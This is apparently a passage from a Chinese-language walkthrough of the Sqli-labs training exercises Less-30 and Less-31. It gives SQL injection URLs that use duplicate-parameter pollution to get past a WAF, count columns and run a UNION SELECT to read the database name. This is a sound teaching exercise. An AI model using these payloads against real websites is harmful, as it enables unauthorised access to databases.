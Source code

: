**查看当前库**<br />http://www.web.com/sql/Less-30/login.php?id=1&id=-1" union select 1,2,database()--+<br />![](https://img-blog.csdnimg.cn/20200723155625929.png#crop=0&crop=0&crop=1&crop=1&id=Oesu3&originHeight=197&originWidth=549&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以下步骤与Sqli-labs-Less-1相同，不进行详细叙述**


# Sqli-labs-Less-31
![](https://img-blog.csdnimg.cn/20200723160039439.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=PGXgf&originHeight=345&originWidth=1127&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
与Sqli-labs-Less-29 一样，也是属于WAF的练习<br />使用http://www.web.com/sql/Less-31/login.php

**判断注入点**<br />http://www.web.com/sql/Less-31/login.php?id=1'<br />报错<br />![](https://img-blog.csdnimg.cn/20200723160134970.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=woqX2&originHeight=622&originWidth=810&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**说明此时我们的参数被WAF阻挡，此时我们加入第二个参数**<br />http://www.web.com/sql/Less-31/login.php?id=1&id=1'<br />登录成功，不存在注入<br />http://www.web.com/sql/Less-31/login.php?id=1&id=1"<br />报错，并显示少了一个),加上)后进行注释后登录成功，说明存在注入点<br />![](https://img-blog.csdnimg.cn/2020072316035038.png#crop=0&crop=0&crop=1&crop=1&id=LvtGi&originHeight=50&originWidth=1262&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
http://www.web.com/sql/Less-31/login.php?id=1&id=1")--+<br />![](https://img-blog.csdnimg.cn/20200723160400968.png#crop=0&crop=0&crop=1&crop=1&id=ghtYQ&originHeight=157&originWidth=437&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看列数**<br />http://www.web.com/sql/Less-31/login.php?id=1&id=1") order by 3--+<br />当为4时报错，为3返回正确，说明有3列<br />![](https://img-blog.csdnimg.cn/20200723160501425.png#crop=0&crop=0&crop=1&crop=1&id=VGMys&originHeight=85&originWidth=406&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看当前库**<br />http://www.web.com/sql/Less-31/login.php?id=1&id=-1") union select 1,2,database()--+<br />![](https://img-blog.csdnimg.cn/20200723160515572.png#crop=0&crop=0&crop=1&crop=1&id=odjfo&originHeight=168&originWidth=451&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以下步骤与Sqli-labs-Less-4相同，不进行详细叙述**




